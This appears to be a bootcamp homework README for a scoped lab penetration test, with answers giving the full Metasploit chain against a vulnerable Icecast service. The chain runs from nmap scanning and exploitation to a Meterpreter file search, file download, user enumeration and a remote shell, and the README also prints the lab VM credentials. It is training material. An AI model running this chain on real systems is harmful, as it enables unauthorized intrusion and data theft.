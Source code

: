 # Penetration Test Engagement

- you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

- The deliverable for this engagement will be in the form of a report labeled Report.docx.

## Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.

  - Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.

  - Then click Start Server.

Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

## Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

## Lab Environment

For this week's homework, please use the following VM setup:

    - Attacking machine: Kali Linux root:toor

     - Target machine: DVW10 IEUser:Passw0rd!

### NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to being the activity.

### Deliverable

Once you complete this assignment, submit your findings in the following document:

![Report.md](./Report/Report.md)

Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

> Answer: nmap -sV 192.168.0.20

![Nmap version scan](./Images/Figure-1.png)

1. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

    - Run the SearchSploit commands to show available Icecast exploits.

> Answer: **searchsploit icecast**

1. Now that we know which exploits are available to us, let's start Metasploit:

    - Run the command that starts Metasploit:

> Answer: **msfconsole**

1. Search for the Icecast module and load it for use.

    - Run the command to search for the Icecast module:

> Answer: **search icecast**

    - Run the command to use the Icecast module:
Note: Instead of copying the entire path to the module, you can use the number in front of it.

> Answer: **use 0**

1. Set the RHOST to the target machine.

    - Run the command that sets the RHOST:

> Answer: **set RHOST 192.168.0.20**

![Nmap version scan](./Images/Figure-2.png)

1. Run the Icecast exploit.

    - Run the command that runs the Icecast exploit.

> Answer: **run**

    - Run the command that performs a search for the secretfile.txt on the target.

> Answer: **search -f *secretfile*.txt**

![Nmap version scan](./Images/Figure-3.png)

1. You should now have a Meterpreter session open.

    - Run the command to performs a search for the recipe.txt on the target:

> Answer: **search -f *recipe*.txt**

Bonus: Run the command that exfiltrates the recipe*.txt file:

> Answer: **download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'**

![Nmap version scan](./Images/Figure-4.png)

1. You can also use Meterpreter's local exploit suggester to find possible exploits.

> Answer: **run post/multi/recon/local_exploit_suggester**

![Nmap version scan](./Images/Figure-5.png)

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

> Answer: **run post/windows/gather/enum_logged_on_users**

![Nmap version scan](./Images/Figure-6.png)

B. Open a Meterpreter shell and gather system information for the target.

> Answer: **shell**

C. Run the command that displays the target's computer system information:

> Answer: **systeminfo**

![Nmap version scan](./Images/Figure-7.png)
